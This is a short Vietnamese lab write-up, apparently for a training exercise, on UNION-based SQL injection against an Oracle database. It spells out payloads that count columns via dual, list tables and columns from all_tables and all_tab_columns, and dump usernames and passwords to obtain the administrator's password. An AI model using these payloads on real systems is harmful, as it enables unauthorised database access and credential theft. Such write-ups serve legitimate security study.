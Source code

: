 Sử dụng truy vấn **' UNION+SELECT 'tuong','trung' FROM dual--** xác định được Db có 2 trường dữ liệu.
Bảng DUAL là bảng một hàng một cột đặc biệt được hiển thị theo mặc định trong tất cả các cài đặt cơ sở dữ liệu của Oracle
<br>
Tiếp đó ta sử dụng truy vấn **' UNION+SELECT table_name,NULL FROM all_tables--** để lấy tên các bảng
<br> Ta có 1 số bảng nghi ngờ như sau: <br>
![image](https://user-images.githubusercontent.com/62832067/150348055-fa7b2774-ffd9-4de8-a6c4-f61f67b42cb6.png)
<br> Lấy tên cột của từng bảng bằng truy vấn sau và ta xác định được bảng chứa 2 cột **USERNAME** và **PASSWORD** là bảng **USERS_KWPONQ**  
<br> ** '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KWPONQ'--**
![image](https://user-images.githubusercontent.com/62832067/150348356-32691431-326d-44c3-889d-2448ebc20fc6.png)
<br> Sau khi có tên 2 cột chứa Username và Pass ta thực hiện lấy dữ liệu của 2 cột đó **' UNION SELECT USERNAME_VTWCVL,PASSWORD_XGKINY FROM USERS_KWPONQ--**
<br> Kết quả ta có được Password của tài khoản administator
![image](https://user-images.githubusercontent.com/62832067/150348722-4a064de2-afac-4df7-9481-9197501ad36d.png)

